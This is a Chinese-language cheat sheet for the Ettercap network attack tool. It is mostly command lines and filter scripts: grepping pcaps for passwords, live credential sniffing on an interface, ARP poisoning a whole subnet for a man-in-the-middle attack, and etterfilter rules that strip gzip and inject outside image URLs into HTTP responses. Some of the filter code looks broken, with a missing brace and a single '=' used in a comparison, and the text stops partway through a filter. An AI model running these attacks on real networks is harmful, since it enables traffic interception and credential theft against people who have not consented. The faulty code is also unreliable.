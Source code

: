## Ettercap

大多数情况下，您将使用“ettercap -G”和 ncurses GUI。然而，记住命令行语法也很重要，如果您的 GUI 一直崩溃，它可能会派上用场。一个有用的特性是，您还可以嗅探 pcap 的凭证。语法是:“ettercap -T -r mypcap.pcap”。

![](img/cc59e1678b4ba007d13b09657b20d1c6.png)

这里还有一些来自控制台的更多扩展使用案例:

```
#console search a pcap for passwords and display 3 lines before and after for connection details
ettercap -T -r mypcap.pcap | grep -i "pass*" -A3 -B3

#arp poisioning for all hosts on the subnet with MiTM option enabled
ettercap -T -M arp:remote //

#live capture on an iface with promisc mode and only display passwords and other critical details 
ettercap -Tzq -i eth0

#use ettercap plugin filter (compiled by etterfilter)
ettercap -T -M arp:remote // -M ARP /sourceip/ /targetip/ -F <myfilter.ef>

#compile en ettercap filter
etterfilter myfilter.txt -o myfilter.ef

#filter example http netsed replacement
#disable gzip encoding
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
	  # note: replacement string is same length as original string
      msg("removed Accept-Encoding!\n");
   }
if (ip.proto == TCP && tcp.src == 80) {
replace("img src=", "img src=\"http://www.xtecsystems.com/foo.png\" ");
replace("IMG SRC=", "img src=\"http://xtecresearch.cloud/foo.png\" ");
msg("url substituted.\n");
}

#filter example replace data on a packet
if (ip.proto == TCP && tcp.dst = 80) {
   if ( DATA.data == "foo" ) {
      replace(DATA.data, "bar")
```
